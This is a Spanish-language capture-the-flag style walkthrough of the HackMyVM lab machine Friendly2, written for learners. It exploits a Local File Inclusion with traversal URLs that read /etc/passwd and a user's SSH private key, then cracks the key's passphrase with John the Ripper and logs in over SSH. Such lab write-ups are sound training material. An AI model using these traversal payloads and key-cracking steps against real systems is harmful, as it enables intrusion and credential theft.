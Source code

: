 
---
- TAG: #Explotación #Vulnerabilidades #Inclusión #Archivos #Locales #LFI
----
# Máquina: [Friendly2](https://hackmyvm.eu/machines/machine.php?vm=Friendly2)

# Explotación de una Vulnerabilidad Local File Inclusion (LFI)

En el blog de hoy, vamos a aprender a realizar un **Local File Inclusion (LFI)** en una página web vulnerable. Hay muchas formas de realizar un **LFI**, pero esta vez lo aprenderemos de una manera sencilla y básica, adecuada para el nivel del examen.

Para ello, utilizaremos una máquina víctima de **HackMyVM**.

- Máquina: [Friendly2](https://hackmyvm.eu/machines/machine.php?vm=Friendly2)
- Máquina atacante: Linux

## Procedimiento

### 1. Preparación del Entorno

Una vez descargada la máquina vulnerable y exportada a nuestro VirtualBox, estamos listos para proceder.

1. **Arp-scan** para localizar la máquina víctima.
2. **Ping** para ver el tipo de TTL y entender a qué nos enfrentamos.
3. **Nmap** para encontrar vulnerabilidades y puertos abiertos:
   ```bash
   nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 1.2.3.4 -oN escaneo
   ```

Al finalizar el escaneo, encontramos dos puertos abiertos: `22` (SSH) y `80` (HTTP). Al acceder a la página web a través del navegador en el puerto 80, vemos una página web sencilla.

### 2. Exploración de la Página Web

1. **Revisar el código fuente** presionando `Ctrl + U`.
   No vemos nada interesante, así que continuamos.

2. **Fuzzing Web**:
   ```bash
   dirb http://1.2.3.4
   ```

Con este ataque rápido, encontramos dos directorios: `/assets` y `/tools`.

3. Al probar el primer directorio, encontramos un mensaje de **Información privada**. Revisamos el código fuente (`Ctrl + U`) y encontramos información sensible en un comentario:
   ```bash
   check_if_exist.php?doc=keyboard.html
   ```

Agregamos esta información al final de la URL:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=keyboard.html
   ```

Vemos una página sencilla con la imagen de un teclado. Ahora, realizaremos el ataque **Local File Inclusion (LFI)**.

### 3. Realización del Ataque Local File Inclusion (LFI)

Cuando vemos algo similar a `doc=keyboard.html` en una URL, siempre que esté llamando a un parámetro o archivo, es probable que sea vulnerable a **LFI**. Esta vulnerabilidad nos permite retroceder por los directorios hasta acceder a archivos importantes de la máquina víctima.

1. En la URL, reemplazamos `keyboard.html` con `../` para retroceder en los directorios:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=../../etc/passwd
   ```

Al apuntar a `../etc/passwd`, veremos todos los usuarios registrados en la máquina víctima Linux.

2. Buscamos el fichero **id_rsa** de un usuario existente dentro de la máquina:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=../../home/gh0st/.ssh/id_rsa
   ```

Al acceder a esta ruta, vemos la **PRIVATE KEY**. Copiamos este archivo a nuestra máquina atacante para obtener acceso a la máquina víctima.

### 4. Uso del Archivo id_rsa para Acceder a la Máquina Víctima

1. Hacemos `Ctrl + U` en la página web con la clave.
2. Copiamos toda la clave.
3. En nuestra máquina Kali Linux, creamos un archivo con `nano` o `nvim`:
   ```bash
   nano id_rsa
   ```

4. Pegamos toda la clave, guardamos y salimos.
5. Le asignamos el permiso `600`:
   ```bash
   chmod 600 id_rsa
   ```

6. Ingresamos utilizando el archivo `id_rsa` con el usuario `gh0st`:
   ```bash
   ssh -i id_rsa gh0st@1.2.3.4
   ```

7. Nos pedirá el salvoconducto. Utilizamos **John The Ripper** para crackear el **id_rsa**:
   ```bash
   ssh2john id_rsa > hash
   john --wordlist=/usr/share/wordlist/rockyou.txt hash
   ```

8. Volvemos a ingresar con `ssh` y, esta vez, cuando nos pida el salvoconducto, ingresamos la credencial `celctic`:
   ```bash
   ssh -i id_rsa gh0st@1.2.3.4
   ```

Pegamos el salvoconducto encontrado y ya estaremos dentro.

### Resumen

1. Hemos explotado un **Local File Inclusion** para encontrar información valiosa de la víctima, específicamente el archivo `id_rsa`.
2. Hemos obtenido dicho archivo `id_rsa` y le hemos proporcionado el permiso `600`.
3. Lo hemos crackeado localmente con **John The Ripper** para obtener el salvoconducto.
4. Ingresamos como el usuario `gh0st` en la máquina víctima.

---
